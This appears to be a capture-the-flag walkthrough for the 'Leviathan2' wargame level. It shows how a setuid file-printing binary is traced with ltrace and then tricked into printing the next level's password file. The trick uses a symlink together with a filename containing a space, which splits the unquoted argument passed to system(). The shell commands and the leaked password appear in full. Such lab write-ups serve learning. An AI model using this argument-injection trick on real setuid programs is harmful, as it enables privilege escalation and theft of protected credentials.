 # Leviathan2

See `./printfile`

Looks like it prints a file. Try to print `./printfile /etc/leviathan_pass/leviathan3`

Nope no permission.

Try to see library calls it's making on a file it can access:

`ltrace ./printfile ./bashrc`

```
__libc_start_main(0x80491e6, 2, 0xffffd5b4, 0 <unfinished ...>
access(".bashrc", 4)                                             = 0
snprintf("/bin/cat .bashrc", 511, "/bin/cat %s", ".bashrc")      = 16
geteuid()                                                        = 12002
geteuid()                                                        = 12002
setreuid(12002, 12002)                                           = 0
system("/bin/cat .bashrc"# ~/.bashrc: executed by bash(1) for non-login shells.
```

Note that it checks file for access, escalates permissions, then shells out to `/bin/cat`

Can we redirect by using a link? 

```
ln -s /etc/leviathan_pass/leviathan3 /tmp/link
./printfile /tmp/link
```

Nope it checks permissions 



Can we try break the binary? 

If we provide two inputs what happens?
```
ltrace ./printfile .bashrc .profile
```

Only first input is checked

If we provide a space in the name of the file?

```
leviathan2@gibson:~$ mktemp
/tmp/tmp.EfD34m4mLC
leviathan2@gibson:~$ mktemp | xargs touch
leviathan2@gibson:~$ touch "/tmp/whoa file.txt"
leviathan2@gibson:~$ cat "/tmp/whoa file.txt"
leviathan2@gibson:~$ file "/tmp/whoa file.txt"
/tmp/whoa file.txt: empty
leviathan2@gibson:~$ ./printfile "/tmp/whoa file.txt"
/bin/cat: /tmp/whoa: No such file or directory
/bin/cat: file.txt: No such file or directory
```

Whole file is checked, but only last word after space is read

Let's create a file with a space such that one of the words is the previous link

```
leviathan2@gibson:~$ touch "/tmp/link whoa"
leviathan2@gibson:~$ ./printfile "/tmp/link whoa"
Q0G8j4sakn
/bin/cat: whoa: No such file or directory
```
